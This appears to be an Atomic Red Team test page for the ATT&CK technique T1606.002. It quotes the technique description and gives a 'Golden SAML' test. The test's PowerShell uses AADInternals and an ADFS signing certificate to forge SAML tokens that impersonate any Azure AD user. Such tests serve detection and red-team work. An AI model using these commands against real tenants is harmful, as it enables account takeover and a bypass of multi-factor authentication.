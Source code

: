 ```yaml
---
tags: [T1606_002, atomic_test]
filename: "[[T1606.002|T1606.002 - Forge Web Credentials: SAML token]]"
---
```


# T1606.002 - Forge Web Credentials: SAML token
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1606/002)
<blockquote>An adversary may forge SAML tokens with any permissions claims and lifetimes if they possess a valid SAML token-signing certificate.(Citation: Microsoft SolarWinds Steps) The default lifetime of a SAML token is one hour, but the validity period can be specified in the <code>NotOnOrAfter</code> value of the <code>conditions ...</code> element in a token. This value can be changed using the <code>AccessTokenLifetime</code> in a <code>LifetimeTokenPolicy</code>.(Citation: Microsoft SAML Token Lifetimes) Forged SAML tokens enable adversaries to authenticate across services that use SAML 2.0 as an SSO (single sign-on) mechanism.(Citation: Cyberark Golden SAML)

An adversary may utilize [Private Keys](https://attack.mitre.org/techniques/T1552/004) to compromise an organization's token-signing certificate to create forged SAML tokens. If the adversary has sufficient permissions to establish a new federation trust with their own Active Directory Federation Services (AD FS) server, they may instead generate their own trusted token-signing certificate.(Citation: Microsoft SolarWinds Customer Guidance) This differs from [Steal Application Access Token](https://attack.mitre.org/techniques/T1528) and other similar behaviors in that the tokens are new and forged by the adversary, rather than stolen or intercepted from legitimate users.

An adversary may gain administrative Azure AD privileges if a SAML token is forged which claims to represent a highly privileged account. This may lead to [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550), which may bypass multi-factor and other authentication protection mechanisms.(Citation: Microsoft SolarWinds Customer Guidance)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Golden SAML](#atomic-test-1---golden-saml)


<br/>

## Atomic Test #1 - Golden SAML
Forge a "Golden SAML" token which allows to impersonate any Azure AD user, and authenticate to AADGraph (as a proof). 
You will need the ADFS token signing certificate (see T1552.004 to export it).
More info here : https://o365blog.com/post/adfs/

**Supported Platforms:** Azure-ad


**auto_generated_guid:** b16a03bc-1089-4dcc-ad98-30fe8f3a2b31





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| certificate_path | Token signing certificate path. See T1552.004 to export it | path | .&#92;ADFS_signing.pfx|
| immutable_id | ImmutableId of the targeted user. It can be obtained with AzureAD powershell module; $(Get-AzureADUser -SearchString "username").ImmutableId | string | aehgdqBTZV50DKQZmNJ8mg==|
| issuer_uri | Issuer URI of the ADFS service | string | http://contoso.com/adfs/services/trust/|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AADInternals -Force
$saml = New-AADIntSAMLToken -ImmutableID "#{immutable_id}" -PfxFileName "#{certificate_path}" -Issuer "#{issuer_uri}"
$conn = Get-AADIntAccessTokenForAADGraph -SAMLToken $saml -SaveToCache
if ($conn) { Write-Host "`nSuccessfully connected as $($conn.User)" } else { Write-Host "`nThe connection failed" }
Write-Host "End of Golden SAML"
```




#### Dependencies:  Run with `powershell`!
##### Description: AADInternals module must be installed.
##### Check Prereq Commands:
```powershell
if (Get-Module AADInternals) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AADInternals -Force
```




<br/>
